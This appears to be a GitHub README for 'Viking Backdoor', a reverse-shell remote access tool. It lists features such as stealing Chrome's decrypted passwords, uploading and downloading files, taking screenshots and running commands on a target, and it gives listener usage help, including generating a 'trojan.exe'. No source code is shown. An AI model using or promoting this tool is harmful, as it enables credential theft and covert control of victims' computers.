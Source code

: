 # Viking Backdoor

Viking Backdoor is a MSF Backdoor like reverse connection tool.

## Features
- File upload.
- File download
- Screenshot
- Getting Chrome's passwords
- Executing programs / commands in a new process.
- Sending pop-up messages.
- Geting some info about target system.

# Screenshots
![alt tag](https://i.hizliresim.com/O0WNbD.png)

![alt tag](https://i.hizliresim.com/7qOd3Y.png)

#### Generating exe file(only on Windows!)
![alt tag](https://i.hizliresim.com/z3WLZj.png)

### vkng Help
	Commands:
	    set HOST           : Set HOST value.
	    set PORT           : Set PORT value.
	    show options       : Show HOST and PORT values.
	    start listener     : Start Listener.

	    generate exec --name trojan.exe : Generating exe files.(Only on Windows with PyInstaller)

	Example:
	    vkng => set HOST 127.0.0.1
	    vkng => set PORT 8000
	    vkng => show options
	[~] HOST: 127.0.0.1
	[~] PORT: 8000
	===========================================================
	    vkng => start listener / start / run

### Listener Help

	Commands:
	    help()                  : Show this message.
	    screenshot()            : Take a screenshot on client.
	    chrome_db               : Get Chrome's password decrypted database.
	    download                : Download files from client.
	    upload                  : Upload files to client from server.
	    message TEXT            : Show messages on target system.
	    info()                  : Show target system's info.
	    execute PROGRAM ARGS    : Execute programs in a new process.

	Execute programs on local machine:
	    :dir ==> with ":"
	    :cls
	    :clear
